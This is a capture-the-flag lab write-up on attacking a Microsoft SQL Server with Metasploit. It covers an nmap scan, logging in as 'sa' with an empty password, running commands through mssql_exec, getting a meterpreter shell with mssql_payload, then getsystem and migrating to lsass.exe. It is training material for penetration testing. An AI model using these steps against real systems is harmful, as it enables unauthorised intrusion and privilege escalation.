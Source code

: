 ## Host & Network Penetration Testing: The Metasploit Framework CTF 1

### Flag 1: Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag.
```
nmap -sS -Pn -O -p- 10.2.22.159 -T4
```
This scan reveals some ports opened.
Following task, we approach enumeration of port 1433, where we find MSSQL server.
```
nmap 10.2.22.159 -sV -p 1433 --script ms-sql-info
nmap 10.2.22.159 -sV -p 1433 --script ms-sql-empty-password
```
The second one gives us the important information that the login with an empty password is possible.
```
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2012
| ms-sql-empty-password: 
|   10.2.22.159\MSSQLSERVER: 
|_    sa:<empty> => Login Success
```
Start Metasploit and configure the auxiliary module:
```
auxiliary/scanner/mssql/mssql_login
```
Remember to set “Createsession” to True.

Then configuring:
```
auxiliary/admin/mssql/mssql_enum
```
with the newly created session, we enumerate all the target system information.

With the help of the module:
```
auxiliary/admin/mssql/mssql_exec
```
setting the CMD option, we can navigate the folders of the target machine.

We find the flag using the command:
```
set CMD “type c:\flag1.txt”
```

### Flag 2: Locate the second flag within the Windows configuration folder.
```
set CMD "dir /s *.txt"
```
This command reveals the third flag but not this one.

We can try another way using Metasploit module:
```
exploit/windows/mssql/mssql_payload
set database master
set username sa
exploit
```
We obtain a meterpreter session and escalate privileges:
```
meterpreter
getsystem
ps
migrate XXX - migrate to a service with more privileges like lsass.exe
shell
```
This way we are able to find the fourth flag thanks to the hint provided in the track:
```
c:\Users\Administrator\Desktop>type flag4.txt
```
Still we cannot find the second flag, so it is time to use powershell
```
meterpreter > load powershell
powershell_shell
Get-ChildItem -Path C:\Windows\System32\ -Recurse -Force -Filter *flag* -ErrorAction SilentlyContinue
```
We finally find the second flag:
```
C:\Windows\system32\config\flag2.txt
```

***Note: we encountered some issue during enumeration due to lack of privileges and hidden folders.***

### Flag 3: The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag.

This flag can be found thanks to:
```
set CMD "dir /s *.txt"
&
set cmd "type C:\Windows\system32\drivers\etc\EscaltePrivilageToGetThisFlag.txt"
```
### Flag 4: Investigate the Administrator directory to find the fourth flag.

We already located fourth flag in previous step.

